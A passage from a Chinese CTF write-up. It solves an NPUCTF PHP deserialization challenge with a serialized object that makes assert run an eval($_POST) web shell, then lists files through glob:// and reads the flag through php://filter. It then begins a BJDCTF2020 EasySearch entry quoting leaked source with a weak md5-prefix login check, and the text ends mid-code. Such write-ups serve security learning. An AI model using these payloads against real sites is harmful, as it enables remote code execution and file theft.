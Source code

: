 那么构造payload吧：

```php
<?php
highlight_file(__FILE__);

class HelloPhp
{
    # public $a = "phpinfo()";
    public $a = 'eval($_POST[hhh]);';
    public $b = 'assert';	# assert($assertion)，$assertion是字符串就会被assert()当做PHP代码执行
}

echo serialize(new HelloPhp());
```

先执行phpinfo()看看disable_function禁用了哪些函数
![](https://i.loli.net/2021/07/21/8WLzFvknMaBZNE1.png)

传马：

```php
O:8:"HelloPhp":2:{s:1:"a";s:18:"eval($_POST[hhh]);";s:1:"b";s:6:"assert";}
```

![](https://i.loli.net/2021/07/21/oTmZseJdSXljEUL.png)

不过命令执行函数被ban了一堆，但是我们可以尝试用伪协议：`var_dump(scandir('glob:///*'));`罗列文件名![](https://i.loli.net/2021/07/21/KIcLt2E7szXHQ6g.png)

然后用`include("php://filter/convert.base64-encode/resource=/FIag_!S_it");`读出来就可以了![](C:\Users\11634\AppData\Roaming\Typora\typora-user-images\image-20210721205714699.png)

base64解一下得到flag：NPUCTF{this_is_not_a_fake_flag_but_true_flag}，但是提交失败了0-0看来是个假flag

然后看了一下wp发现在phpinfo搜flag就可以了，非常无语

![](https://i.loli.net/2021/07/21/Q4kwW5YjZtNXMq7.png)



## 2021.7.23

### [BJDCTF2020]EasySearch

登录框，没有注册，sql注入无果，找一下备份文件
(最近老是碰到这个--)
index.php.swp文件（产生原因有：1使用多个程序编辑同一文件；2非常规退出）

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
```